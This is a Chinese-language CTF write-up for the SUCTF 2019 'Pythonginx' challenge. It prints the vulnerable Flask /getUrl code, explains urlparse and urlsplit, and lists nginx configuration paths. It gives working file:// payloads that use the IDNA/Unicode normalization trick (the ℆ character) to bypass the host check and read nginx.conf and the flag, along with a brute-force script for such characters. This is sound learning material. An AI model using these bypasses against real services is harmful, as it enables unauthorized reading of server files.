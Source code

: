 ```yaml
---

title: 日常练习18

date: 2021-04-19 23:19:45

tags: 练习

categories: test67

---
```

这道题和我之前做到的那道unicode编码漏洞问题有相同之处，除此之外又考察了一些代码审计和nginx的相关知识点。   

# [SUCTF 2019]Pythonginx  

打开题目就已经给出了源码。  

	@app.route('/getUrl', methods=['GET', 'POST'])
	def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
    </code>
    <!-- Dont worry about the suctf.cc. Go on! -->
    <!-- Do you know the nginx? -->  

可以看到路由是/getUrl,代码结尾告诉我们不用在意这个suctf.cc这个域名，然后让我们了解一下nginx这个东西，那我们先是要简单上网百度一下的。  

经过查询后发现这个nginx是一个是开源、高性能、高可靠的 Web 和反向代理服务器，具体介绍如下：  

	Nginx 是开源、高性能、高可靠的 Web 和反向代理服务器，而且支持热部署，几乎可以做到 7 * 24 小时不间断运行，即使运行几个月也不需要重新启动，还能在不间断服务的情况下对软件版本进行热更新。性能是 Nginx 最重要的考量，其占用内存少、并发能力强、能支持高达 5w 个并发连接数，最重要的是，Nginx 是免费的并可以商业化，配置使用也比较简单。

	Nginx 的最重要的几个使用场景：

    静态资源服务，通过本地文件系统提供服务；

    反向代理服务，延伸出包括缓存、负载均衡等；

    API 服务，OpenResty ；

	对于前端来说 Node.js 不陌生了，Nginx 和 Node.js 的很多理念类似，HTTP 服务器、事件驱动、异步非阻塞等，且 Nginx 的大部分功能使用 Node.js 也可以实现，但 Nginx 和 Node.js 并不冲突，都有自己擅长的领域。Nginx 擅长于底层服务器端资源的处理（静态资源处理转发、反向代理，负载均衡等），Node.js 更擅长上层具体业务逻辑的处理，两者可以完美组合，共同助力前端开发。  

但是这道题目并不需要我们多么深入了解nginx，我们要得到flag，就需要知道nginx一些文件存放的地方  

	配置文件存放目录：/etc/nginx
	主配置文件：/etc/nginx/conf/nginx.conf
	管理脚本：/usr/lib64/systemd/system/nginx.service
	模块：/usr/lisb64/nginx/modules
	应用程序：/usr/sbin/nginx
	程序默认存放位置：/usr/share/nginx/html
	日志默认存放位置：/var/log/nginx
	配置文件目录为：/usr/local/nginx/conf/nginx.conf  

我们要想找到flag文件就要从配置文件目录来找，接下来就是看源码来分析了：  

可以看到源码中的陌生函数是urlparse(),urlsplit()。而变量host就是我们上传的url进行变化后的字符串。在结尾如果if host == 'suctf.cc':那么就执行如下代码   

	return urllib.request.urlopen(finalUrl).read()  

也就是会打开我们上传的url的路径的文件。那么我们应该上传的是file://协议。  

接下来具体看一下这两个函数作用。  

	顾名思义，urlsplit是拆分，而urlparse是解析，所以urlparse粒度更为细致

	区别
	split函数在分割的时候，path和params属性是在一起的
	代码示例

	# -*- coding: utf-8 -*-

	from urllib.parse import urlsplit, urlparse
	
	url = "https://username:password@www.baidu.com:80/index.html;parameters?name=tom#example"
	
	print(urlsplit(url))
	"""
	SplitResult(
    scheme='https', 
    netloc='username:password@www.baidu.com:80', 
    path='/index.html;parameters', 
    query='name=tom', 
    fragment='example')
	"""

	print(urlparse(url))
	"""
	ParseResult(
    scheme='https', 
    netloc='username:password@www.baidu.com:80', 
    path='/index.html', 
    params='parameters', 
    query='name=tom', 
    fragment='example'
	)   

可以看到这两个函数都是对上传的url进行拆解的函数，只不过拆解的细分程度不同罢了。  

简单来说就是前两个if判断语句要求host不能为suctf.cc,第三个语句则是要求经过了decode(‘utf-8’) 之后传进了 urlunsplit 函数后，**意思是将域名每个部分进行idna编码后，再utf-8解码，**使host==suctf.cc，可以看出这是要让我们绕过前两个if。  

由上面的utf-8我们就可以想到之前那道unicode编码造成的安全问题了。猜测这道题目也是有关Unicode编码转换的问题。  

因为前面已经说过了，我们既要使host不等于suctf.cc，又要使它经过编码后等于suctf.cc那么我们就可以使用这个符号**℆**，我们这样构造：  

	file://suctf.c℆sr/local/nginx/conf/nginx.conf  

这样经过转换后还是等于suctf.cc.满足了三个if条件。  

[![](https://img.imgdb.cn/item/6081b68fd1a9ae528ff6eca9.png)](https://img.imgdb.cn/item/6081b68fd1a9ae528ff6eca9.png)  

得到flag文件路径。  

	file://suctf.c℆sr/fffffflag

得到flag。

[![](https://img.imgdb.cn/item/6081b6d5d1a9ae528ff96618.png)](https://img.imgdb.cn/item/6081b6d5d1a9ae528ff96618.png)  

其实关于这个特殊字符可以使用脚本跑出来，有很多可以使用的字符，其原理都是一样的。  

附上大佬脚本：  

	from urllib.parse import urlparse,urlunsplit,urlsplit
	from urllib import parse
	def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass
 
	def getUrl(url):
    url=url
    host=parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts=list(urlsplit(url))
    host=parts[1]
    if host == 'suctf.cc':
        return False
    newhost=[]
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1]='.'.join(newhost)
    finalUrl=urlunsplit(parts).split(' ')[0]
    host=parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False
 
 
	if __name__=='__main__':
    get_unicode()


# 小结  

这道题考了几个新的知识点，其一是关于nginx的了解，了解其基本的配置文件的路径，其二是对这两个函数的了解。关于绕过匹配用到的其实是前不久刚学过的Unicode编码的问题，出题人想要考察的就是这一点，后来发现这是blackhat议题之一HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization。下面给出相关链接。  

[blackhat议题——HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)  
[Nginx 介绍](https://blog.csdn.net/Janson_Lin/article/details/105954705?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161909758416780271533785%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=161909758416780271533785&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-105954705.first_rank_v2_pc_rank_v29&utm_term=nginx)  
